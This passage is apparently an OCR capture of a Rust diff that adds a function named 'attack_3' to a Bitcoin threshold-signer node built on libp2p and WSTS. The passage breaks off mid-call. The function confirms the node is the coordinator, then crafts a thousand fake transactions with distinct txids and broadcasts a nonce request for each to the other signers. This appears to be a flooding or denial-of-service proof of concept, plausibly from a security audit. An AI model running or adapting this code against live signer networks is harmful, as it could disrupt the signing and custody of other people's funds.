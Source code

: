         tracing::info!("libp2p event loop terminated");
     }
     
    +static mut INDEX: i32 = 0;
    +async fn attack_3(ctx: &impl Context) -> Result<(), Error> {
    +    use crate::ecdsa::SignEcdsa;
    +    use crate::keys::PublicKey;
    +    use crate::message::Payload;
    +    use crate::network::{ MessageTransfer, P2PNetwork };
    +    use crate::storage::DbRead;
    +    use std::collections::BTreeSet;
    +
    +    let db = ctx.get_storage();
    +    let bitcoin_chain_tip = db.get_bitcoin_canonical_chain_tip()
    +        .await?
    +        .ok_or(Error::NoChainTip)?;
    +
    +    let signer_set: BTreeSet<PublicKey> = match db.get_last_key_rotation(&bitcoin_chain_tip).await? {
    +        Some(last_key) => {
    +            last_key.signer_set.into_iter().collect()
    +        }
    +        _ => {
    +            return Err(Error::BitcoinCoreZmqConnectTimeout("no signer_set".to_string()));
    +        }
    +    };
    +
    +    let private_key = ctx.config().clone().signer.private_key;
    +    if !crate::transaction_coordinator::given_key_is_coordinator(
    +        PublicKey::from_private_key(&private_key),
    +        &bitcoin_chain_tip,
    +        &signer_set,
    +    ) {
    +        return Err(Error::BitcoinCoreZmqConnectTimeout("not coordinator".to_string()));
    +    }
    +
    +    let mut fake_bitcoin_tx = bitcoin::Transaction {
    +        version: bitcoin::transaction::Version::non_standard(0),
    +        lock_time: bitcoin::absolute::LockTime::ZERO,
    +        input: vec![],
    +        output: vec![],
    +    };
    +
    +    let mut network = P2PNetwork::new(ctx);
    +    for _ in 0..1000 {
    +        // Make each `msg.txid` different
    +        unsafe {
    +            fake_bitcoin_tx.version = bitcoin::transaction::Version::non_standard(INDEX);
    +            INDEX += 1;
    +        }
    +
    +        let signer_withdrawal_decision = crate::message::WstsMessage {
    +            txid: fake_bitcoin_tx.compute_txid(),
    +            inner: wsts::net::Message::NonceRequest(wsts::net::NonceRequest {
    +                dkg_id: 0,
    +                sign_id: 0,
    +                sign_iter_id: 0,
    +                message: vec![],
    +                signature_type: wsts::net::SignatureType::Frost,
    +            }),
    +        };
    +
    +        network.broadcast(
    +            Payload::from(signer_withdrawal_decision)